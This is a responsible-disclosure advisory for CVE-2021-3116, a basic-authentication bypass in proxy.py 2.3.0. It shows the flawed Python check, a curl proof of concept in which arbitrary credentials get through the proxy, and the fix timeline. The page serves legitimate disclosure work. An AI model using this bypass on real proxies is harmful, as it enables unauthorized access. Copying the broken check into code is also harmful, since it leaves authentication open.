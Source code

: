 ```yaml
---
title: '[CVE-2021-3116] proxy.py 2.3.0 — Broken basic authentication'
description: A logic bug enables a trivial bypass of the basic authentication mechanism of the proxy.
tags: [CVE, proxy, authentication]
advisory:
  discovered: 2021-01-09
  product: '[proxy.py](https://github.com/abhinavsingh/proxy.py)'
  versions:
    - 2.3.0
  cve: CVE-2021-3116
---
```


## Abstract

[proxy.py](https://github.com/abhinavsingh/proxy.py) is a feature-rich HTTP proxy server written in Python. Among the other things it allows to spawn a proxy server that enforces [HTTP basic access authentication][basic-auth].

A recent [refactoring][] introduced a logic bug that allows to bypass the proxy authentication.

[refactoring]: https://github.com/abhinavsingh/proxy.py/commit/a48319e32d3c60cb919ef70706b3a3750406f837
[basic-auth]: https://en.wikipedia.org/wiki/Basic_access_authentication

## Details

The vulnerable code is located in [proxy/http/proxy/auth.py][bug]:

```python
def before_upstream_connection(
        self, request: HttpParser) -> Optional[HttpParser]:
    if self.flags.auth_code:
        if b'proxy-authorization' not in request.headers:
            raise ProxyAuthenticationFailed()
        parts = request.headers[b'proxy-authorization'][1].split()
        if len(parts) != 2 \
                and parts[0].lower() != b'basic' \
                and parts[1] != self.flags.auth_code:
            raise ProxyAuthenticationFailed()
    return request
```

The `and` operators are wrong here, and it is enough to set one of its operands to `False` to skip the challenge and bypass the authentication. A valid `Proxy-Authorization` header (e.g., for `user:password`) is in the form:

```
Proxy-Authorization: Basic dXNlcjpwYXNzd29yZA==
```

So `len(parts)` is `2`, thus any valid header with any credentials works.

[bug]: https://github.com/abhinavsingh/proxy.py/blob/f04845cd645e642b92a40ea5650fd805f4f9ad04/proxy/http/proxy/auth.py#L31-L41

## Proof of concept

Start `proxy.py` like:

```console
$ proxy --basic-auth user:password
2021-01-10 19:25:31,183 - pid:73304 [I] load_plugins:334 - Loaded plugin proxy.http.proxy.AuthPlugin
2021-01-10 19:25:31,184 - pid:73304 [I] load_plugins:334 - Loaded plugin proxy.http.proxy.HttpProxyPlugin
2021-01-10 19:25:31,184 - pid:73304 [I] listen:113 - Listening on ::1:8899
2021-01-10 19:25:31,215 - pid:73304 [I] start_workers:136 - Started 8 workers
```

Trying to use the proxy without credentials correctly yields a proxy authentication error:

```console
$ curl -I -x localhost:8899 http://example.com
HTTP/1.1 407 Proxy Authentication Required
Proxy-agent: proxy.py v2.3.0
Proxy-Authenticate: Basic
Connection: close
Content-Length: 29
```

But specifying any credentials (e.g., `x:x`) allows the request to go through:

```console
$ curl -I -x x:x@localhost:8899 http://example.com
HTTP/1.1 200 OK
Content-Encoding: gzip
Accept-Ranges: bytes
Age: 276321
Cache-Control: max-age=604800
Content-Type: text/html; charset=UTF-8
Date: Sun, 10 Jan 2021 18:31:28 GMT
Etag: "3147526947"
Expires: Sun, 17 Jan 2021 18:31:28 GMT
Last-Modified: Thu, 17 Oct 2019 07:18:26 GMT
Server: ECS (bsa/EB23)
X-Cache: HIT
Content-Length: 648
```

## Timeline

2021-01-09
: Disclosed privately to the developers as suggested in their [SECURITY.md][].

2021-01-10
: The developers implement the [fix][] and release version 2.3.1

2021-01-11
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

[fix]: https://github.com/abhinavsingh/proxy.py/pull/482/commits/9b00093288237f5073c403f2c4f62acfdfa8ed46
[SECURITY.md]: https://github.com/abhinavsingh/proxy.py/blob/develop/SECURITY.md
